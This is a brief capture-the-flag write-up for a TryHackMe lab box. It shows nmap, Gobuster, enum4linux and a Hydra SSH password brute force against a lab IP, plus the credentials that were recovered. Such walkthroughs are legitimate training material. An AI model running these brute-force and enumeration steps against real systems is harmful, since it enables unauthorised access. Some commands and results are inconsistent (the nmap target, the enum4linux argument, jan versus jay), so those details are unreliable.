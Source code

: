 # Basic Pentesting (TryHackMe)
IP: `10.10.23.195`

# Scanning
```
nmap -sC -sV -oN 10.10.23.195
```

```
22
80
139
445
8009
8080
```

# Question And Answers

* Hidden directory on the web server (`development`, via Gobuster)
```
gobuster -w /opt/DirBuster-0.12/directory-list-2.3-medium.txt -u http://10.10.23.195/	
```
* Username (`jan` and `kay` via enum4linux)
```
/opt/enum4linux/enum4linux.pl -a http://10.10.23.195/
```
* Password (`jay:armando` via Hydra with SSH)
```
hydra -l jan -P /opt/rock.txt ssh://10.10.23.195
```

# Found Credentials








